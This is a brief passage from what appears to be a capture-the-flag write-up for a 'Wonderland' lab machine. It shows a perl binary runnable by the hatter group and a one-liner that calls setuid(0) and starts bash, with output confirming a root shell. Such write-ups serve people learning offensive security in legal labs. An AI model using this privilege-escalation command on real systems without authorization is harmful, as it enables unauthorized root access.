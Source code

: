 ```
	~$ ls -l /usr/bin/perl
	-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
```
-> So we only priv to root if we prived to Hatter.

```bash
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

END!!!